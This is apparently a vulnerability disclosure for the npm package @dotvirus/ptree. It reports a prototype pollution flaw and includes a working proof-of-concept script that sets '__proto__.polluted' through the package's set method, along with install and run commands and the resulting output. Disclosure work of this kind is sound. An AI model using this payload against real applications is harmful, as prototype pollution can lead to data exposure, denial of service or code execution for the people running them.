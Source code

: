 # Description

`@dotvirus/ptree` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const ptree = require('@dotvirus/ptree').default

console.log('Before: ' + {}.polluted)
const tree = new ptree({})
tree.set('__proto__.polluted', true)
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i @dotvirus/ptree # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

